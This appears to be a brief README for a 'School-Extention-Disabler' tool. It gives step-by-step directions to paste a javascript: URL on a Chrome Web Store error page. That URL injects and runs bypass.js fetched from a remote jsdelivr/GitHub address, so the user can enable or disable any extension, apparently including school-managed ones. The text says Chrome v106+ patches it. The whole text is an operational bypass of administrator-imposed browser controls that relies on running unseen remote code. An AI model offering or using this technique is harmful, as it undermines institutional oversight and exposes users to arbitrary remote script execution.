Patched in Chrome v106+ to check your chrome version goto chrome://version/

To use goto https://chrome.google.com/webstorex you will get a 404 Error but that doesn't matter replace the URL with "javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/HangWithCmm/School-Extention-Disabler/bypass.js';document.body.appendChild(a);}())" sometimes you have to add "javascript:" back but after that press ENTER and you will be able to Enable/Disable any extension
